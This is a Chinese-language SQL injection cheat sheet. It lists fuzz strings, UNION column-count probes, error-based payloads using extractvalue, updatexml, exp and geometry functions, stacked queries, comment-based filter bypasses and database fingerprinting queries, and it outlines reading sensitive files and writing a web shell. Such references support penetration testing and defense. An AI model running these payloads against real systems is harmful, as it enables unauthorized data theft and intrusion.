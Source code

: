 注入检测
=====================================

常见的注入点
--------------------------------------
- GET/POST/PUT/DELETE参数
- X-Forwarded-For
- 文件名

Fuzz注入点
--------------------------------------
- ``'`` / ``"``
- ``1/1``
- ``1/0``
- ``and 1=1``
- ``" and "1"="1``
- ``and 1=2``
- ``or 1=1``
- ``or 1=``
- ``' and '1'='1``
- ``+`` ``-`` ``^`` ``*`` ``%`` ``/`` 
- ``<<`` ``>>`` ``||`` ``|`` ``&`` ``&&``
- ``~``
- ``!``
- ``@``
- 反引号执行

测试用常量
--------------------------------------
- ``@@version``
- ``@@servername``
- ``@@language``
- ``@@spid``

测试列数
--------------------------------------
例如 ``http://www.foo.com/index.asp?id=12+union+select+nulll,null--`` ，不断增加 ``null`` 至不返回

报错注入
--------------------------------------
- ``select 1/0``
- ``select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a``
- ``extractvalue(1, concat(0x5c,(select user())))``
- ``updatexml(0x3a,concat(1,(select user())),1)``
- ``exp(~(SELECT * from(select user())a))``
- ``ST_LatFromGeoHash((select * from(select * from(select user())a)b))``
- ``GTID_SUBSET(version(), 1)``

基于geometric的报错注入
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``GeometryCollection((select * from (select * from(select user())a)b))``
- ``polygon((select * from(select * from(select user())a)b))``
- ``multipoint((select * from(select * from(select user())a)b))``
- ``multilinestring((select * from(select * from(select user())a)b))``
- ``LINESTRING((select * from(select * from(select user())a)b))``
- ``multipolygon((select * from(select * from(select user())a)b))``

其中需要注意的是，基于exp函数的报错注入在MySQL 5.5.49后的版本已经不再生效，具体可以参考这个 `commit 95825f <https://github.com/mysql/mysql-server/commit/95825fa28a7e84a2f5dbdef5241078f7055c5b04>`_ 。

而以上列表中基于geometric的报错注入在这个 `commit 5caea4 <https://github.com/mysql/mysql-server/commit/5caea4a995130cd7c82574acc591ff7c46d9d978>`_ 中被修复，在5.5.x较后的版本中同样不再生效。

堆叠注入
--------------------------------------
- ``;select 1``

注释符
--------------------------------------
- ``#``
- ``--+``
- ``/*xxx*/``
- ``/*!xxx*/``
- ``/*!50000xxx*/``

判断过滤规则
--------------------------------------
- 是否有trunc
- 是否过滤某个字符
- 是否过滤关键字
- slash和编码

获取信息
--------------------------------------
- 判断数据库类型
    - ``and exists (select * from msysobjects ) > 0`` access数据库
    - ``and exists (select * from sysobjects ) > 0`` SQLServer数据库

- 判断数据库表
    - ``and exsits (select * from admin)``

- 版本、主机名、用户名、库名
- 表和字段
    - 确定字段数
        - Order By
        - Select Into
    - 表名、列名

测试权限
--------------------------------------
- 文件操作
    - 读敏感文件
    - 写shell
- 带外通道
    - 网络请求
